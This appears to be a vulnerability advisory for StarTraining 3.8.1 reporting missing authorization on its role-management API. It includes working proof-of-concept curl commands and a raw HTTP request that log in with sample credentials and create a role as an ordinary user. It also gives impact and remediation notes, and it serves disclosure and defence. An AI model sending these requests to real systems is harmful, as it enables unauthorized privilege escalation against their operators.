

# StarTraining — Role management APIs missing method-level authorization (ST-VULN-005)

| Field | Value |
|-------|-------|
| Vendor | zhistaredu |
| Product | StarTraining |
| Version | 3.8.1 |
| Type | Improper Authorization |
| CWE | CWE-862 |
| Authentication | Any authenticated user |
| Severity | High |

## Summary

`SysRoleController` add/edit/delete/dataScope endpoints lack `@PreAuthorize` and do not call `checkRoleAllowed` / `checkRoleDataScope`.

## Root cause

Missing method security on role CRUD handlers.

## Exploit / reproduction

Any authenticated session can create roles:

```bash
TOK=$(curl -s -X POST 'http://127.0.0.1:8900/login' -H 'Content-Type: application/json' \
  -d '{"username":"wukong","password":"admin123"}' | python3 -c "import sys,json;print(json.load(sys.stdin)['data']['token'])")

curl -s -X POST 'http://127.0.0.1:8900/system/role' \
  -H "Authorization: $TOK" -H 'Content-Type: application/json' \
  -d '{"roleName":"poc_role_st","roleSort":99,"status":"0","menuIds":[]}'
```

Endpoint: `POST http://127.0.0.1:8900/system/role`


## PoC (Yakit)

```http
POST /system/role HTTP/1.1
Host: 127.0.0.1:8900
Authorization: LOW_USER_TOKEN
Content-Type: application/json
Connection: close

{"roleName":"poc_role","roleSort":1,"status":"0","menuIds":[]}
```

Expected: HTTP 200 role created by non-admin user

## Screenshots



## Impact

Tenant role tampering; permission expansion.

## Remediation

Add @PreAuthorize on role endpoints; invoke service-layer checks.

## References

- Local report: `../POC_VERIFICATION_REPORT.md`
- Scripts: `poc_verify/startraining_poc_verify.py`, `startraining_jwt_forge.py`
